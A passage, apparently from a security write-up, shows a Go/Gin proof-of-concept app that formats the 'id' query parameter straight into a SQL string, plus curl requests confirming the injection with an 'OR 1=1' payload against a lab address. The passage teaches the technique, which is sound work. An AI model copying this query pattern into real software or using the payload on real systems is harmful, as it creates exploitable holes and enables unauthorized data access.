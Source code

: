 ```Go
        var phrase Phrase
        err := rows.Scan(&phrase.ID, &phrase.Text)
        if err != nil {
            c.JSON(
                http.StatusInternalServerError,
                gin.H{"error": err.Error()}
            )
            return
        }
        phrases = append(phrases, phrase)
    }

    c.JSON(http.StatusOK, phrases)
}

func main() {
    pool, _ = pgxpool.Connect(
        context.Background(),
        "postgres://localhost/postgres?user=poc_user&password=poc_pass")

    r := gin.Default()
    r.GET("/phrases", phraseHandler)
    r.Run(":8000")

    defer pool.Close()
}
```
<PRE>

---[ 1.1 - A rather trivial injection

The actual injection happens inside the phraseHandler function on these
lines of code. The app directly formats the query parameter id into
the query string and calls the pool.Query() function. It couldn't be any
simpler, right?

</PRE>
```Go
phrase_id := c.DefaultQuery("id", "1")
query := fmt.Sprintf(
    "SELECT id, text FROM phrases WHERE id=%s",
    phrase_id
)

rows, err := pool.Query(context.Background(), query)
defer rows.Close()
```
<PRE>

The SQL injection can be quickly confirmed with these cURL requests:

</PRE>
```sh
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode "id=1"
[
    {"id":1,"text":"Hello, world!"}
]

$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode "id=-1"
[]

$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode "id=-1 OR 1=1"
[
    {"id":1,"text":"Hello, world!"},
    {"id":2,"text":"A day in paradise."},
    ...
```